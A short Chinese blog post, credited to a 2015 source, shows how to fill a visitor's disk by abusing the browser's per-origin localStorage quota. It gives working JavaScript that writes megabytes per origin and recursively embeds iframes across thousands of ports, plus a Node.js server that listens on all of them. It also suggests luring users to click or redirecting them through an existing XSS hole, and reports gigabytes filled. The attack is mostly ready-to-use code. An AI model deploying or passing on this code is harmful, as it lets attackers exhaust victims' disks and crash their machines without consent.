


LocalStorage 是 html5 的本地存储，其中的内容以文件的形式保存在本地磁盘中。

一个域（协议+域名+端口）的文件大小PC端为5~10M，移动端不大于2.5M。

但是我们可以在端口上做点手脚，因为端口是可控的，我们可以开一个服务器监听很多个端口，然后输出的页面使用iframe进行递归包含。

比如我们的页面可以嵌入以下代码：

```
(function(){
    var maxPort = ...;

    // 写文件
    var s = "";
    for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
    }
    localStorage.setItem('k', s);

    var port = parseInt(location.port) + 1;
    if(port > maxPort) return;

    if(port % 50 == 0){
        //每50个重定向一次，防止崩溃
        window.location.href = url;
    } else {
        // 新添加iframe
        var url = "http://example.com:" + port;
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
    }
})();
```

之后我们用Node.js架设服务器：

```
var http = require('http');
var fs = require('fs');

var content = fs.readFileSync('./index.html');

var maxPort = ...;

for(var port = 1000; port < maxPort; port++){
    http.createServer(function (request, response) {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
    }).listen(port);
}
```

我们可以给页面加点装饰，诱导用户点击。也可以使用现有的XSS漏洞重定向过去。

测试结果

100个端口有几乎500MB



200个端口则有1.17个G



如果将端口调整至2000个


GG。

注

来源：[作为一个前端，可以如何机智地弄坏一台电脑？](http://litten.github.io/2015/07/06/hack-in-localstorage/)